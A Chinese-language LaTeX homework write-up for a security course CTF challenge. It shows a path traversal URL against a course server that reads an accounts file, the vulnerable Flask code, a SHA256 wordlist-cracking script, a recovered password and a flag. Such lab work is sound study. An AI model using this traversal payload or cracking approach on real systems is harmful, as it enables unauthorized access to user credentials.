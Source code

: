 \documentclass[12pt]{article}
\begin{document}
{\centering\verb|HW12{r3MeM8eR_To_s3t_S7R0Ng_PAS5WOrds}|\par}

觀察 app.py 我們可以看到 submissions 這條 route 的設計有點危險，因為他會直接去找 submissions 資料夾底下的 <username>.json (這裡 <username> 是 submissions 斜線後的字串)，所以我們可以利用這條 route 來構造能存取 accounts/accounts.json 的 URL，我構造的網址如下，理論上他會去存取 \texttt{/submissions/../accounts/accounts.json}。

{\centering\verb|http://140.112.91.4:45510/submissions/%2e%2e%2faccounts%2faccounts|\par}

\begin{verbatim}
user_submissions = load_submissions(username)
# ...
def load_data(filename):
    if os.path.exists(filename):
        with open(filename, 'r') as f:
            try:
                return json.load(f)
            except json.JSONDecodeError:
                return {}
    return {}

def load_submissions(username):
    return load_data(SUBMISSIONS_DIR + username + '.json')
\end{verbatim}

進到剛剛構造的 URL 後，我們可以看到許多人的 username 和一串應該是 SHA256 的 hash (應該..是密碼)。然後我們可以用簡單的 python script (\verb|code/break_pw.py|) 去從既有的 password list 去找有沒有密碼的 hash 和 fysty 的 hash 相同。
\begin{verbatim}
# break_pw.py
import hashlib
target_hash = "40c3d69c8a012e181bd63d215d61a1df44e8fe7c182da6d24f26b0fae5348010"
wordlist_path = "1M.txt"

with open(wordlist_path, 'r', encoding='utf-8', errors='ignore') as f:
    for line in f:
        password = line.strip()  # remove newline and spaces
        hashed = hashlib.sha256(password.encode()).hexdigest()
        if hashed == target_hash:
            print(f"The password is: {password}")
            break
\end{verbatim}

最終我們可以使用得到的密碼 \verb|mortis00| 去成功登入 fysty 的帳戶，就可以找到這小題的旗幟了！

\subsection*{(b)}
這題的 flag 為：
\end{document}
